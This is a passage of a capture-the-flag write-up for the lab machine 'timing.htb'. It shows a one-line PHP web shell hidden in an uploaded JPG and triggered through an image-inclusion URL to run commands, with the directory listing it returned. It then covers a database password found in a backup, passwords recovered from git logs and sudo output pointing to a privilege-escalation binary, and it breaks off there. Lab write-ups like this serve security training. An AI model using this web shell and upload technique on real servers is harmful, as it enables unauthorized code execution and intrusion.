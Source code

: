 we need php code inside `jpg` file 

i generate  `pk.jpg` file and put this php code inside it 
`<?php system($_GET[cmd]);?> `

`http://timing.htb/image.php?img=images/uploads/e8fd9fafa2388864352241933bcac132_pk.jpg&cmd=ls`

```
admin_auth_check.php
auth_check.php
avatar_uploader.php
css
db_conn.php
footer.php
header.php
image.php
images
index.php
js
login.php
logout.php

```
in `/opt` directory i found `source-files-backup.zip`, i downloaded and explore it .

in `db_conn.php`
```
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
````
i tried to login with `4_V3Ry_l0000n9_p422w0rd` via `ssh` but it doesn't work,so i should dig more.

i found another password  in git logs folders by using `git log -p` command lets try this password
if you dont know how to use `git logs ` check this [this](https://git-scm.com/docs/git-log)

![9](https://user-images.githubusercontent.com/36403473/171456400-9eb77534-274a-4510-8f43-3a96f1f7c63f.png)

![10](https://user-images.githubusercontent.com/36403473/171457875-772b477b-2a34-4271-bfdb-b819410a450f.png)

### Root flag

by checking sudo 

```
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils


```
lets run this binary 
